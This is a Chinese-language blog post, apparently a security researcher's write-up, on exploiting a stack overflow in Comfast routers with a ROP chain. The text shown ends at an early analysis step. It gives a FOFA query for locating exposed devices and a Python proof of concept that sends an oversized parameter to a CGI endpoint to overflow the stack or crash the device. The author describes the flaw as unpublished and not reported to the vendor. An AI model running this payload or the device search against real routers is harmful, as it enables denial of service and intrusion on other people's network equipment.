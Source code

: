 ```yaml
---
title: Comfast 系列产品 /栈溢出ROP利用链构造 - Updated
published: true
---
```


Comfast 本身是个比较小众品牌，出的洞危害范围较小，其安全防御措施也较为轻松.  

关于本篇文章分析的利用链，没什么交漏洞库和提醒厂商的必要，没什么好说的. 不过看到网上关于他的漏洞，都没有写明合适构造链. 因此在此浅浅分析一下 ROP 利用链就行了. 该产品采用 mipsel 32 指令集

本文章不遵循 CC 协议，除开特别说明标注，该文章未经许可禁止转载

fofa语法:  
```
icon_hash="-1026040476"
```

| 目录跳转 |
|--------|
| [直接写 shellcode (失败)](#直接写shellcode) |
| [ROP 链构造调用 system (成功)](#rop链构造1) |
| [ROP 链构造直接调用 syscall (更新中)](#rop链构造) |

# [](#header-3)直接写shellcode

一个尚未公开的栈溢出PoC(前提是登录，客户端 IP 被服务端记录在案):
```py
def Vul4_AC100(host: str) -> None:
	'''
	Stack OverFlow & DDoS
	Requirement: Authorized
    by leeya_bug
	'''
	import requests
    data0 = 'A' * 500
	data = '{"portal_delete_picname":"' + data0 + '"}'
	requests.post("http://" + host + "/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file", data = data)

Vul4_AC100(HOST的地址)
```

笔者在此已经下载到了该厂商的一个通用网关固件，将其模拟起来并成功复现了该漏洞. 由于该厂商大多数产品都是通用固件的模板复用，因此只要有洞那大概率其他固件也能复现   
下载链接如下所示，提取文件系统可以发现就是 nginx + web cgi

[https://dl.comfast.cn/firmware/CF-AC100-V2.6.0.8.zip](https://dl.comfast.cn/firmware/CF-AC100-V2.6.0.8.zip)

此时已知：  
栈上字符串变量的首地址为 0x2B2A6540  
